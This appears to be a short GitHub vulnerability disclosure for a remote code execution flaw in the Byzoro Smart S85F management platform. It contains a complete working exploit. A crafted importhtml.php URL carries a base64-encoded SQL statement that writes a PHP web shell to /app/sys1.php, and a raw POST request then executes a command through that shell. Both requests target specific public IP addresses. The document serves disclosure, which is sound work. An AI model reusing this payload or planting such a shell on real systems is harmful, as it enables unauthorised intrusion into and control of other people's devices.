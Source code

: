 The Smart S85F management platform has an rce vulnerability

official website:https://www.byzoro.com/

version :Smart S85F

As shown in the login interface

Construct the url, download successfully, construct the poc, and execute the command successfully

![WPS图片(1)](https://github.com/RCEraser/cve/assets/131632691/a1165784-f866-448a-963b-9f62be8444b1)

https://60.29.117.204:8443/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn

POC
```
POST /app/sys1.php HTTP/1.1
Host: 60.22.74.195:8443
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![WPS图片(2)](https://github.com/RCEraser/cve/assets/131632691/4084458a-d982-46ab-9cd5-516ccde25696)
